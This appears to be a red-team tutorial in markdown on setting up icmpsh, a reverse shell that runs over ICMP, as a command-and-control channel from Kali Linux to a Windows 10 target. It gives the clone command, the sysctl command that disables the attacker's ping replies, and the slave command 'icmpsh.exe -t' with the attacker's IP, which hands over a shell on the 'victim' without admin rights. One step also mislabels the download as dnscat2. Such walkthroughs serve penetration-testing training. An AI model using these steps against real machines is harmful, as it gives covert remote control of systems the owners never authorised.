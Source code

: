 # Red Teaming Squad

## icmpsh: Command and Control with ICMP

icmpsh is a simple reverse ICMP shell with a win32 slave and a POSIX compatible master in C, Perl or Python. The main advantage over the other similar open-source tools is that it does not require administrative privileges to run onto the target machine.

The tool is clean, easy and portable. The slave (client) runs on the target Windows machine, it is written in C and works on Windows only whereas the master (server) can run on any platform on the attacker machine as it has been implemented in C and Perl by Nico Leidecker and later it also gets ported into Python too.

**Requirment**

* Attacker Machine or C2-channel : **Kali Linux**
* Host machine : **Windows 10**

It is very easy to install and use as c2-channel.

### Installation

Run the following git command to download dnscat2 in your host machine :

`git clone https://github.com/inquisb/icmpsh.git`

<kbd>![](icmpsh/1.png)</kbd>

Once the downloads have been completed, you can use the following command to run the tool. The most important step before taking action is to disable ping reply on your machine. This prevents the kernel from responding to ping packets itself.

First you have to go to the directory

`cd icmpsh`

<kbd>![](icmpsh/2.png)</kbd>

to disable to ping use follwing command

`sysctl -w net.ipv4.icmp_echo_ignore_all=1`

After that run the tool by executing python file. Also you have to give Attacker machine Ip address and Target machine Ip address.

<kbd>![](icmpsh/3.png)</kbd>

Now again install icmpsh tool inside the host machine which is windows 10. To run the exe file target machine does not require administrative privileges.

To run the exe file use following command:

`icmpsh.exe -t 192.168.1.108`

Here `-t` stands for attacker's machine Ip address. 

<kbd>![](icmpsh/4.png)</kbd>

Once the above command is executed on the victim machine, the intrude will have reverse shell of victim machine. You can observe from the image given below that the machine controls the victim machine by spawning its prompt of command.

<kbd>![](icmpsh/5.png)</kbd>

<kbd>![](icmpsh/6.png)</kbd>